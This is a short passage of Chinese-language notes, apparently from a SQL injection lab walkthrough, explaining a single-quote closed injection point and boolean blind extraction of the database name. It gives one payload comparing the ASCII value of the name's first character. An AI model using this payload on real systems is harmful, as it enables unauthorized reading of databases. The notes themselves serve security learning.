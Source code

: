     - 经过测试可以发现上图中是单引号闭合，我们可以通过IF语句来进行判断当前数据库的长度

    - 利用mid函数取出当前数据库的第一个字符然后转换为ascii码再进行判断

    - ```
      id=1' and ord(mid((select database()),1,1)) =115--+
      ```

    - ![image-20220815153522045](assets/image-20220815153522045.png)

    - ![image-20220815153739673](assets/image-20220815153739673.png)
